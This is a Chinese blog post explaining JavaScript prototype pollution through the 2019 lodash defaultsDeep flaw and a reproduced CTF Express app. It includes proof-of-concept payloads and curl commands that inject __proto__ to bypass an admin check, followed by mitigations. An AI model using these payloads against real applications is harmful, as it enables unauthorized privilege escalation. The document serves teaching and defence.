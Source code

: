 ```yaml
---
title: js-prototype-pollution
date: 2019-07-21 14:59:04
tags:
 - js 
 - 安全
categories: js 基础
---
```


> 长草的 github 某一天突然往邮箱狂发了几个 vulnerable dependency 的提醒，才知 lodash 爆漏洞了。该漏洞是个原型污染问题，由开源安全平台 Snyk 的开发者 Liran Tal发现，详情看[这里]。

### lodash 漏洞

lodash 有个 defaultsDeep 方法，也就是默认的深拷贝方法，它能够实现这样的功能：

> 分配来源对象（该方法的第二个参数）的可枚举属性到目标对象（该方法的第一个参数）所有解析为 undefined 的属性上

```javascript
_.defaultsDeep({ 'a': { 'b': 2 } }, { 'a': { 'b': 1, 'c': 3 } })

// 结果

{ 'a': { 'b': 2, 'c': 3 } }
```

在第二个参数上动些手脚，可以修改对象原型链上的属性：

```javascript
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
  }

check();
```

这里在空对象 `{}` 上加了一个 `a0` 熟悉。既然能增加，那么修改也不是问题了，如果修改 `toString` 原型方法，例如把 `payload` 换成

```javascript
const payload = '{"constructor": {"prototype": {"toString": true}}}'
```

那么 `Object.prototype.toString` 就很不安全了。

lodash 紧急发布的修复中，对第二个拷贝参数作了键值判断

![](https://res.cloudinary.com/snyk/image/upload/v1562272212/Screen_Shot_2019-07-04_at_23.29.28.png)

![](https://res.cloudinary.com/snyk/image/upload/v1562272212/Screen_Shot_2019-07-04_at_23.29.28.png)

### NodeJS 漏洞案例

```javascript
'use strict';
 
const express = require('express');
const bodyParser = require('body-parser')
const cookieParser = require('cookie-parser');
const path = require('path');
 
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
 
function merge(a, b) {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
 
function clone(a) {
    return merge({}, a);
}
 
// Constants
const PORT = 8080;
const HOST = '0.0.0.0';
const admin = {};
 
// App
const app = express();
app.use(bodyParser.json())
app.use(cookieParser());
 
app.use('/', express.static(path.join(__dirname, 'views')));
app.post('/signup', (req, res) => {
    var body = JSON.parse(JSON.stringify(req.body));
    var copybody = clone(body)
    if (copybody.name) {
        res.cookie('name', copybody.name).json({
            "done": "cookie set"
        });
    } else {
        res.json({
            "error": "cookie not set"
        })
    }
});
app.get('/getFlag', (req, res) => {
    var аdmin = JSON.parse(JSON.stringify(req.cookies))
    if (admin.аdmin == 1) {
        res.send("hackim19{}");
    } else {
        res.send("You are not authorized");
    }
});
app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);
```

问题出在 `merge` 函数上，攻击者可以通过以下方式绕过登陆验证：

```
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://0.0.0.0:4000/signup'; 

curl -vv 'http://0.0.0.0:4000/getFlag'
```

攻击案例来自：https://www.youtube.com/watch?v=LUsiFV3dsK8

像接口数据的校验，就要小心原型被修改的可能。

### 原型污染防范

 - 使用 `Object.freeze()`
 - 使用 `Object.create(null)` 


> 参考
> (Snyk research team discovers severe prototype pollution security vulnerabilities affecting all versions of lodash)[https://snyk.io/blog/snyk-research-team-discovers-severe-prototype-pollution-security-vulnerabilities-affecting-all-versions-of-lodash/]
>
> 部分转载自[最新：Lodash 严重安全漏洞背后你不得不知道的 JavaScript 知识](https://juejin.im/post/5d271332f265da1b934e2d48#heading-2)